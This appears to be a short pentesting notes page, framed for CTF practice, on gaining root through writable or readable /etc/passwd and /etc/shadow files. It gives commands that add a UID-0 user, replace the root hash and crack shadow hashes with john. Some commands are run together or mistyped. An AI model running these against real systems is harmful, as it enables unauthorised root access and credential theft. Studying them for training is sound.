


# /etc/shadow & /etc/passwd

in a real life scenario its really uncommon to see /etc/passwd or /etc/shadow files with write access for any user other than root.

the methods shown here are mostly seen in easy or intermediate level CTFs but its still good to know these.

## Add /etc/passwd new root user

if we have write permission to /etc/passwd we can add a new root user with password hash and the right format  
  
 first we create a hash for our root user password:  
  
 `openssl passwd evil  
 echo "root2:[password hash]:0:0:root:/root:/bin/bash" >> /etc/passwd`

now login using the new root account:

## Change the /etc/shadow root has

if we have write access to /etc/shadow file we can add a new password hash for the root user:

#### `mkpasswd -m sha-512 “new password”`

replace the root hash with this new hash and login:

## Hash cracking

if the /etc/shadow is readable copy the root user hash to the local system:

#### `ls -l /etc/shadow head -n 1 /etc/shadow`

Crack the password hash using john:

#### `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  john --format=sha512crypt hash.txt --show`

#### `unshadow /etc/passwd /etc/shadow > hash`


#### `if the "unshadow" command ins not available on target system just copy the content of both files to your own machine and run unshadow on them or just install the unshadow tool on victim machni using apt. remember the order of files is important when unshadowing. /etc/passwd is always first and then there is /etc/shadow.`


